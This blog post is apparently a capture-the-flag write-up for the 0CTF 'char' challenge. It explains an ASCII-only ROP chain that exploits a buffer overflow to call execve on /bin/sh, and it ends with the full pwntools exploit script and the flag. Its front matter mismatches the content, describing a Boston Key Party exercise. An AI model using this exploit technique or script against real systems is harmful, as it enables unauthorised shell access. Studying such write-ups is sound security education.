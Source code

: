 ```yaml
---
layout: post
title: 0Ctf - Char Writeup
description: "Writeup for the 2016 boston key party reversing 5 exercise, the frog fractions 2"
modified: 2016-03-15
tags: [writeup, ctf, pwn, rop]
comments: true
share: true
categories: [writeups]
---
```


This has been a fairly straightforward challenge. We were given with a binary that had a textbook buffer overflow with no canaries and NX enabled. The only twist in the story was the input filtering which only allowed ASCII characters. Each byte had to  be between 0x20 and 0x7f otherwise the program terminated. This meant that the challenge boiled down to crafting a ROP chain that only contains the "good" characters.

Lucky for us, the program mmaped the provided libc.so to the ASCII friendly 0x5555e000 address. This map was going to serve our only source of ROP gadgets as the program binary itself was loaded on a bad address. I began solving the problem by getting a list of the available libc calls that reside on good addresses. The *nm --dynamic libc.so* command can be used to list exported symbols and I quickly put together a little python script to filter the results.

```python
#!/usr/bin/python2
import sys

with open('functions.list') as f:
    for line in f:
        try:
            address = int(line.split()[0], 16) + 0x5555e000
        except ValueError:
            continue
        test = address
        try:
            for i in range(4):
                lbyte = (test & 0xff)
                if lbyte <= 0x1f or lbyte >0x7e:
                    raise ValueError('shit happens')
                test = test>>8
        except ValueError:
            continue
        sys.stdout.write(hex(address)+'/'+line) #line.split(' ', 1)[1])

```
Unfortunately neither the *system* function nor the */bin/sh* string was at a good address so I had to look for something else. It stuck to me that the *gets* function was available which could be used to overwrite my buffer with unfiltered data. This approach was a dead end and I briefly explain why. *gets* requires a single parameter a pointer to read to, which ,since this challenge was written on i386, is passed on the stack. I ideally wanted to overwrite the stack buffer so I had to push the ESP onto the stack, which seemed fairly easy to do. I quickly put together the ROP chain and then I realised that none of the libc variables are initialized. This is *obviously* not the real libc, just an mmaped binary blob, which means that libc init was never called and all the variables such as stdin pointer, env pointer are left as null. This of course breaks most of the libc function calls.

So I had to come up with a different approach relying only on system calls, or wrappers that do not use any of the aforementioned variables. My plan B became jumping to a *call execve* instruction with the correct parameters set up (I could not just jump to *execve* since it was on a bad address). The problem was that *execve* requires a pointer to the */bins/sh* string, which is on a bad address, and two null pointers (for env and arg) which again cannot be directly supplied. So I had to set up these parameters in registers and push them on the stack in the right order then call execve.

I used *ROPgadget --all* to gather the gadgets and filtered the output the same way as I filtered the symbol list. I have spent some time looking through the gadgets to figure out where and how I could set up the parameters and then I found the *pusha* gadget. *pusha* pushes all the general purpose registers onto the stack in the following order EAX, ECX, EDX, EBX, ESP, EBP, ESI, EDI. This was perfect for me all that was left to do:

* set EAX to 0 as it is going to be the env pointer
* set ECX to 0 as the arg pointer
* calculate the address of */bin/sh* in EDX
* put the address of *call execve* in EBX
* set the address of the next gadget in EDI which was going to be executed after the *pusha*, this gadget should pop off 3 items from the stack (former ESP, EDI, ESI) so that the *call execve* gets executed

There were *pop edi* and *pop ebx* gadgets so setting those up was trivial, just as well as setting EAX to null with a *xor eax eax* gadget. ECX was set to null with and *xchg eax, ecx* gadget and EDX was calculated with an *add eax, 0xc35b0000* and *sub edx, eax* gadgets, setting EAX and EDX appropriately beforehand (/bin/sh: 0x556bb7ec = 0x3a212121-(0xc35b0000+0x215a6935)). The actual exploit code is really messy and I am too lazy to clean it up, so I am just gonna copy it here as is. I hope this explanation makes up for it. The ROP chain worked like a charm after spending considerable amount of time piecing it together, the flag was:

```
flag{Asc11_ea3y_d0_1t???}
``` 

```python
if __name__ == "__main__":
    c = remote(IP, PORT)

    binsh = 0x556bb7ec

#    * 0x556d2a51/0x00174a51 : pop ecx ; add al, 0xa ; ret
    popecx = 0x556d2a51
#    * hex((0x3a212121-(0xc35b0000+0x215a6935))&0xffffffff)
    edxval = 0x3a212121
    ecxval = 0x215a6935
#    * 0x555f3555/0x00095555 : pop edx ; xor eax, eax ; pop edi ; ret
    popedx = 0x555f3555 # 0 eax popedi
    filler = 'CCCC'
#    * 0x556a6253/0x00148253 : mov eax, ecx ; ret
    moveaxecx = 0x556a6253
#    * 0x5557734b/0x0001934b : add eax, 0xc35b0000 ; ret
    addieax = 0x5557734b
#    * 0x5560365c/0x000a565c : sub edx, eax ; pop esi ; mov eax, edx ; pop edi ; pop ebp ; ret
    subedxeax = 0x5560365c #pop esi,edi, ebp trash eax
    
	# Set up bin sh addr in edx
    payload = 'A'*32 +p32(popecx) + p32(ecxval) + p32(popedx) + p32(edxval) + filler + p32(moveaxecx)+p32(addieax) + p32(subedxeax) +filler*3
  

#    * 0x55617a5f/0x000b9a5f : xchg eax, ecx ; mov eax, 0xff ; jne 0xb9a41 ; ret
    xchgeaxecx = 0x55617a5f
#    * 0x555f6428/0x00098428 : xor eax, eax ; ret
    xoreax = 0x555f6428
    # Set null in ecx and eax
    payload += p32(xoreax) + p32(xchgeaxecx) + p32(xoreax)


#    * 0x555f2166/0x00094166 : pop ebx ; pop edi ; ret
    popebxedi = 0x555f2166
    callexecve = 0x55616967
    
	# Set up ebx and edi
	# the subedxeax gadget pops esi, edi, ebp so it is used to position the stack after the pusha
    payload += p32(popebxedi) + p32(callexecve) + p32(subedxeax)

#   * pushal; ret; -> returns edi
    pushal = 0x5563704c
    # pushall
    payload += p32(pushal)
 
    #print hexdump(payload)
    payload += 'B'*(2398-len(payload))
    #sys.stdout.write(payload)
    #sys.stdout.flush()
    c.sendline(payload)

    c.interactive()
```
